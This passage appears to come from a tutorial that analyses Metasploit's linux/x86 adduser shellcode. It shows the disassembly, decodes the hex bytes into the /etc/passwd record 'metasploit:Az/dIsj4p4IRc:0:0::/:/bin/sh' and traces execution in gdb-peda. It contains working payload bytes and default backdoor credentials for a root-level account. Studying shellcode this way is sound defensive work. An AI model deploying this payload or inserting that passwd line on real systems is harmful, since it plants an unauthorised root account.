 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>0000002B</strong> <span style="color:#ff0000;">6D</span>               insd
0000002C <span style="color:#ff0000;">657461</span>           gs jz 0x90
0000002F <span style="color:#ff0000;">7370</span>             jnc 0xa1
00000031 <span style="color:#ff0000;">6C</span>               insb
00000032 <span style="color:#ff0000;">6F</span>               outsd
00000033 <span style="color:#ff0000;">69743A417A2F6449</span> imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B <span style="color:#ff0000;">736A</span>             jnc 0xa7
0000003D <span style="color:#ff0000;">3470</span>             xor al,0x70
0000003F <span style="color:#ff0000;">3449</span>             xor al,0x49
00000041 <span style="color:#ff0000;">52</span>               push edx
00000042 <span style="color:#ff0000;">633A</span>             arpl [edx],di
00000044 <span style="color:#ff0000;">303A</span>             xor [edx],bh
00000046 <span style="color:#ff0000;">303A</span>             xor [edx],bh
00000048 <span style="color:#ff0000;">3A2F</span>             cmp ch,[edi]
0000004A <span style="color:#ff0000;">3A2F</span>             cmp ch,[edi]
0000004C <span style="color:#ff0000;">62696E</span>           bound ebp,[ecx+0x6e]
0000004F <span style="color:#ff0000;">2F</span>               das
00000050 <span style="color:#ff0000;">7368</span>             jnc 0xba
00000052 <span style="color:#ff0000;">0A598B</span>           or bl,[ecx-0x75]</pre>
<p style="text-align:justify;">The following output shows that if we convert the hex opcodes highlighted with red colour above into ASCII text, we can have a new user record in valid format that can be inserted into the file <strong>/etc/passwd</strong>. Moreover with little help of python we can have a valid record in text as seen below</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">"6D65746173706C6F69743A417A2F6449736A3470344952633A303A303A3A2F3A2F62696E2F73680A598B".decode("hex")
'<span style="color:#ff0000;">metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh</span><span style="color:#33cccc;">\n</span>Y\x8b'</pre>
<p style="text-align:justify;">Also as we see above, the default credentials are used because we didn't provide any username or password to the <strong>msfvenom</strong> command, so the username will be <strong>metasploit</strong>, and the password will be <strong>Az/dIsj4p4IRc</strong> . Furthermore the user id as well as the group id will be <strong>0</strong> and the login shell will be <strong>/bin/sh</strong>. The following output from <strong>gdb-peda</strong> can provide us with the expected results as discussed before. As we see in red color below the flow has been redirected at instruction <strong>pop ecx </strong>after the <strong>call 0x53 </strong>is executed.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">=&gt; 0x404093 &lt;shellcode+83&gt;:   <span style="color:#ff0000;">pop    ecx</span>
   0x404094 &lt;shellcode+84&gt;:   mov    edx,DWORD PTR [ecx-0x4]
   0x404097 &lt;shellcode+87&gt;:   push   0x4
   0x404099 &lt;shellcode+89&gt;:   pop    eax</pre>
<p style="text-align:justify;">if we examine closely the address <strong>0x404090 </strong>we see the following hexadecimal values in red</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>gdb-peda$ x/20x 0x404090</strong>
0x404090 &lt;shellcode+80&gt;: <span style="color:#ff0000;">0x59 0x8b 0x51 0xfc 0x6a 0x04 0x58 0xcd</span>
0x404098 &lt;shellcode+88&gt;: <span style="color:#ff0000;">0x80 0x6a 0x01 0x58 0xcd 0x80 </span>0x00 0x00
0x4040a0: 0x00 0x00 0x00 0x00
gdb-peda$</pre>